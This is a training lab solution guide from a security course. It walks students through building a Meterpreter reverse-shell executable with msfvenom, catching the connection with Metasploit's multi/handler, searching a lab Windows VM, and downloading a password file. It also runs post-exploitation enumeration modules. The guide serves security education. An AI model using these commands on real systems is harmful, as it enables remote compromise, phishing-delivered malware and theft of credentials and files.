 ## Solution Guide: Meterpreter Shells

The goal of this activity was to practice using Metasploit modules and payloads.

---

1. In Kali, create an executable payload for the target machine using `msfvenom`. You have been provided a template command to create your exploit. 

   Type and run the following command, but remember to update the `LHOST` with the correct IP:

     - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.8 LPORT=4444 -f exe > hack.exe`

   **Note**: We'll cover custom payloads in the next lesson. For now, just know that this payload will create a malicious `hack.exe` file. 

2. Remember, once the payload is created, the attacker needs to get their payload onto the victim's computer. For this activity, assume that your payload reached the victim's machine via social engineering. 

   In one or two sentences, describe how you might have used social engineering to deliver this payload to the victim machine. 

   -  You might have targeted an employee with a phishing email using information obtained from their LinkedIn and Facebook profiles.

   - The targeted employee opened the email that contained your malware called `hack.exe`, which installed it on to their local hard drive.

      
3. In DVW10, verify that `hack.exe` is on the victim machine. 

   * Navigate to the Downloads folder on the DVW10 VM and locate the EXE file.


     - Do not click on the file just yet. 

4. Return to Kali and run the commands needed to establish the reverse connection once the file has been executed.
   
   - Launch the MSFconsole in preparation for establishing the reverse connection. Then run the commands that will do the following tasks:

      - Launch MSFconsole:

         - `msfconsole`

      - Load the `exploit/multi/handler`:

         - `use exploit/multi/handler`

      - Set the payload to `windows/meterpreter/reverse_tcp`:

         - `set payload windows/meterpreter/reverse_tcp`

        ![Find 3](./Images/FIND_3.png)

      - View the payload's options:

         - `show options`

      - Set `LHOST` to the IP of your Kali machine:

         - `set LHOST 192.168.0.8`
   
      - Set the `LPORT` to `4444` of your Kali machine:

         -  `set LPORT 4444`

          ![Find 4](./Images/FIND_4.png)

      - Verify the option settings took effect:

         - `show options`

         ![Find 5](./Images/FIND_5.png)


5. Run the exploit:

   - `exploit` or `run`

    **Note:** If you do not get a Meterpreter shell after a minute or two, go to the DVW10 machine and double-click on the `hack.exe` file to restart the listener.
  
    - Long idle times may cause the listener to close the connection. Double-clicking `hack.exe` forces the connection back up.

6. Now we will explore the exploited machine and begin our hunt for the target information.

   - As a warm-up, run the Meterpreter command that searches for files on the remote host:

      - `search -f <filename>`

      - `search -h`

      ![Find 6](./Images/FIND_6.png)


7. Let's begin the hunt:

   - Search the remote filesystem for all files ending with `.jpg`:

      -  `search -f *.jpg`

       ![Find 7](./Images/FIND_7.png)
   - Search the remote filesystem for a file called `password`:

      - `search -f password*`

   - Exfiltrate this file from the DVW10 VM:
     
      - `download 'C:\Users\IEuser\Documents\password.txt'`

       ![Find 8](./Images/FIND_8.png)

### Bonus

Although security professionals are not expected to be familiar with every module and payload offered in Metasploit and Meterpreter, you will be expected to find the tools you need through online searches. 

Try to complete the following tasks: 

- Find and use a post-exploitation module that enumerates network shares (Windows Gather SMB Share Enumeration via Registry) on the DVW10 machine:

   - `run post/windows/gather/enum_shares`

   - Results show there are not shares running on the VM. 

- Find and use a post-exploitation module that checks if the DVW10 computer is running inside a VM:

     -  `run post/windows/gather/checkvm`
     
     -  Results show that it is a Hyper-V VM. 

- Launch a command shell within Meterpreter and perform enumeration that displays user account information on the breached DVW10 computer:

    - `net users`

     ![Shell](./Images/SHELL.png)

____

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
